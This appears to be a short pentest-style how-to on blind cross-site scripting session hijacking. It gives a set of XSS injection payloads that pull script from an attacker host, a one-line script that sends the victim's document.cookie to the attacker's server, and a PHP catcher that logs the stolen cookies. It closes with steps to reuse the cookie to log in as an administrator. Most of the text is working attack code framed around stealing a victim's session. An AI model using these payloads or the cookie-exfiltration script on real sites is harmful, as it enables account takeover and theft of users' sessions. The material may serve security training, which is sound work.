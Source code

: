 Use XSS to steal a victim's session cookie and log in as them.

**🕶️ Blind XSS**

- Happens when your XSS payload runs in a page you can’t see (e.g. Admin Panel).
- You inject code somewhere (e.g., a form), but it only gets triggered when an Admin views it.

**🔍 Common Places for Blind XSS:**

- Contact forms
- Reviews
- Support tickets
- User-agent headers

**🧪 Step 1: Web Server**

Start a test web server:

<pre>mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80</pre>


**🧪 Step 2 Try these payloads in each input field (except password/email):**

Use one of these payloads for bypassing basic payloads:

`<script src=http://OUR_IP></script>`
`'><script src=http://OUR_IP></script>`
`"><script src=http://OUR_IP></script>`
`javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')`
`<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>`
`<script>$.getScript("http://OUR_IP")</script>`

**Dont forget to change path names:**
`<script src=http://YOUR_IP/fullname></script>`
`<script src=http://YOUR_IP/username></script>`

Keep checking your terminal. If your server gets a hit, that input is vulnerable!

**🎣 Step 3: Perform Session Hijacking**

1. Create script.js:

`new Image().src='http://YOUR_IP/index.php?c='+document.cookie`

2. Create a PHP Catcher (optional)
Save as index.php:

<pre><?php
if (isset($_GET['c'])) {
  $cookies = explode(";", $_GET['c']);
  foreach ($cookies as $cookie) {
    file_put_contents("cookies.txt", "IP: {$_SERVER['REMOTE_ADDR']} | Cookie: " . urldecode($cookie) . "\n", FILE_APPEND);
  }
}
?></pre>

**📦 Step 5: Use the cookie**

When you get the cookie, change the cookie value to log in as Admin.
